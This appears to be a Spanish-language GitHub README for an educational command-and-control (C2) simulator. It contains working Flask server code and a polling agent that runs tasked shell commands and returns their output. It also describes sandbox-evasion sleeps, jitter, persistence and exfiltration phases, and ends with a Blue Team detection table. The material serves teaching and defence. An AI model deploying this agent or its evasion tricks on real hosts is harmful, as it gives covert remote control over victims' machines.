

# Custom C2 Simulator — Servidor de Comando y Control

<span style="background-color: #e74c3c; color: white; padding: 4px 8px; border-radius: 4px; font-weight: bold;">Nivel Avanzado</span>

---

## 📝 ¿Qué hace este proyecto?

Simula una **infraestructura de Comando y Control (C2)** completa, compuesta por:
- Un **servidor C2** que gestiona agentes, encola tareas y recibe resultados
- Un **agente** que se instala en el host comprometido, hace polling y ejecuta comandos

> ⚠️ **Uso educativo estricto**: Esta herramienta ilustra cómo funciona el malware real por dentro. Úsala solo en entornos de laboratorio aislados.

---

## 🛠️ Arquitectura del Sistema C2



---

## 🧠 Conceptos Técnicos Profundos

### ¿Qué es la infraestructura C2?

En una operación real de Red Team o en un malware real, el C2 es el **sistema nervioso central** del ataque. Los agentes (malware instalado en víctimas) necesitan recibir órdenes del atacante sin levantar sospechas.

### ¿Por qué HTTP Polling y no una conexión directa?

Una conexión directa del atacante al agente sería bloqueada por el firewall:
```
Atacante ──► FIREWALL ──► Víctima  ❌  (bloqueado por reglas entrada)
```

Con HTTP Polling, **el agente inicia la conexión** (tráfico de salida), que los firewalls raramente bloquean:
```
Víctima ──► FIREWALL ──► C2 ──► Atacante  ✅  (salida permitida)
```

### Técnicas de Evasión Simuladas

| Técnica | Qué hace | Implementación |
|---------|----------|---------------|
| **Sleep aleatorio** | Imita comportamiento humano, evade detección por frecuencia | `time.sleep(random.randint(5, 15))` |
| **User-Agent legítimo** | Tráfico parece navegador normal | Headers de Chrome en requests |
| **Beacons en horario laboral** | Mezcla el tráfico C2 con el tráfico normal | `if 9 <= hora_actual <= 18` |
| **Jitter** | Variación aleatoria del intervalo de polling | `sleep(interval + random.randint(-3, 3))` |

### Fases de una Operación C2

```
1. INSTALACIÓN      → El agente se copia a %AppData% o /tmp
2. PERSISTENCIA     → Se añade al inicio del sistema (registry/cron)
3. RECONOCIMIENTO   → Recopila info del sistema (hostname, user, IP interna)
4. COMUNICACIÓN     → Establece canal encubierto con el servidor C2
5. EJECUCIÓN        → Recibe y ejecuta comandos remotamente
6. EXFILTRACIÓN     → Roba y envía datos cifrados al servidor
7. LIMPIEZA         → Borra rastros, logs, artefactos del sistema
```

---

## 💻 Guía de Uso Paso a Paso

### 1. Prerrequisitos

```bash
pip install flask requests
cd ciberseguridad/nivel_avanzado/01_custom_c2_simulator
```

### 2. Iniciar el Servidor C2

```bash
# Terminal 1 — Servidor
python server.py
```

```
[*] C2 Server iniciando en http://0.0.0.0:8080
[*] Aguardando conexiones de agentes...
```

### 3. Lanzar el Agente (simula el host comprometido)

```bash
# Terminal 2 — Agente (en el mismo equipo o en una VM)
python agent.py
```

```
[+] Agente iniciado. ID: a3f9b2c1
[*] Durmiendo 8 segundos para evadir sandbox...
[*] Registrando en C2: http://127.0.0.1:8080
[*] Enviando beacon...
[*] Sin tareas. Esperando 10 segundos...
```

### 4. Enviar un Comando desde el Servidor

```bash
# Terminal 3 — Panel de control del operador
curl -X POST http://127.0.0.1:8080/task \
     -H "Content-Type: application/json" \
     -d '{"agent_id": "a3f9b2c1", "cmd": "whoami"}'
```

### 5. Ver el Resultado

```bash
curl http://127.0.0.1:8080/results/a3f9b2c1
```

```json
{
  "agent_id": "a3f9b2c1",
  "output": "lucas\\lucas-pc",
  "timestamp": "2026-06-05T18:30:00Z"
}
```

---

## 💻 Código Clave Explicado

```python
# ─── SERVIDOR C2 (Flask) ───────────────────────────────────────
from flask import Flask, request, jsonify
from collections import defaultdict

app = Flask(__name__)
task_queue = defaultdict(list)   # {agent_id: [tarea1, tarea2, ...]}
results = defaultdict(list)      # {agent_id: [resultado1, resultado2, ...]}

@app.route('/tasks', methods=['GET'])
def get_task():
    """El agente llama a este endpoint cada N segundos (polling)"""
    agent_id = request.args.get('agent_id')
    if task_queue[agent_id]:
        return jsonify(task_queue[agent_id].pop(0))  # FIFO
    return jsonify({"status": "idle"})  # Sin tareas

@app.route('/results', methods=['POST'])
def post_result():
    """El agente envía el resultado de la ejecución"""
    data = request.json
    results[data['agent_id']].append(data['output'])
    return jsonify({"status": "received"})

# ─── AGENTE (Cliente) ──────────────────────────────────────────
import time, requests, subprocess, random

C2_URL = "http://127.0.0.1:8080"
AGENT_ID = "a3f9b2c1"

# Técnica de evasión de sandbox:
# Los análisis dinámicos corren el binario solo ~5 segundos
time.sleep(random.randint(5, 15))

while True:
    # Polling: pregunta al C2 si hay algún comando
    response = requests.get(f"{C2_URL}/tasks", params={"agent_id": AGENT_ID})
    task = response.json()
    
    if task.get("cmd"):
        # Ejecutar el comando recibido
        output = subprocess.check_output(task["cmd"], shell=True, text=True)
        
        # Enviar resultado de vuelta
        requests.post(f"{C2_URL}/results", json={
            "agent_id": AGENT_ID,
            "output": output
        })
    
    # Esperar antes del siguiente beacon
    time.sleep(10)
```

---

## 🔍 Cómo Detectarlo (Blue Team)

Ahora que sabes cómo funciona, ¿cómo lo detectarías?

| Indicador | Herramienta de Detección |
|-----------|------------------------|
| Tráfico HTTP regular a IP externa desconocida | Firewall / SIEM |
| Proceso hijo de cmd.exe / powershell con conexión de red | EDR / Sysmon |
| Comunicación HTTP sin User-Agent estándar | IDS / Proxy |
| Proceso ejecutándose desde %AppData% | AV / EDR |
| Clave de registro en `CurrentVersion\Run` | FIM / Sysmon |

---

## 🔗 Código Fuente

[Ver código completo en GitHub](https://github.com/lucasmdg/CIBER/tree/main/ciberseguridad/nivel_avanzado/01_custom_c2_simulator)

**Ver el dashboard visual:** [01_simulador_apt/index.html](https://github.com/lucasmdg/CIBER/tree/main/ciberseguridad/proyectos_futuros/01_simulador_apt)
